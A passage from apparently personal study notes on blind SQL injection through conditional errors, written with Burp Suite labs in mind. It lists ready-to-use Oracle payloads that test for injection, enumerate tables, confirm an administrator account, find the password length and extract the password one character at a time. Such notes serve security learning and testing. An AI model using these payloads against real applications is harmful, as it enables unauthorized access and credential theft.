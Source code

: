 Then view the results and filter by the response length column or use the Grep function to search for the keyword. After sorting, it should be easy to manually put together the password.

>[!info]
>If having trouble sorting by 2 columns in Burp Suite. You can copy/paste only the necessary columns in an Excel sheet, sort them appropriately by the "Payload 1" request so they are in order (1-20) positions. Then use the =CONCAT() command on the "Payload 2" column so the password is combined automatically.
# SQL Blind Conditional Errors

Identify if the following 2 payloads result in a notable difference in the responses from the application:

- `' and 1=1--`
- `' and 1=0--`

Identify if the below payloads cause an SQL exception or error message. Dividing by zero may cause an exception:

- `' and to_char(1/1)=1--`
- `' and to_char(1/0)=1--`

Some payloads can be used to enumerate table names such as:

- `'||(select '' from {tableName} where rownum = 1)||'`
- `'union select 'a' from {tableName} where 1=1--`

Additionally, payloads can be used to determine if there is a user named administrator on the table called users. If the user exists, then an error (1/0) will result. Basically, if the query is valid then an exception will occur. If it is not valid, then the `"` will be executed:

```sql
'||(select case when(1=1) then to_char(1/0) else '' end from users where username='administrator')||'
```

To determine the length of the password for a user called administrator use the following. If the password is greater than 20 characters, then an error (1/0) will result:

```sql
'||(select case when length(password)>20 then to_char(1/0) else '' end from users where username='administrator')||'
```

To extract the password of a user, use the below. For both payloads, if the character in the current position is correct, then the error (1/0) will execute:

For Oracle DB:

```sql
'||(select case when(substr((select password from users where username='administrator'),1,1)='z') then to_char(1/0) else '' end from dual)||'
```

```sql
'||(select case when substr(password,1,1)='z' then to_char(1/0) else '' end from users where username = 'administrator')||'
```
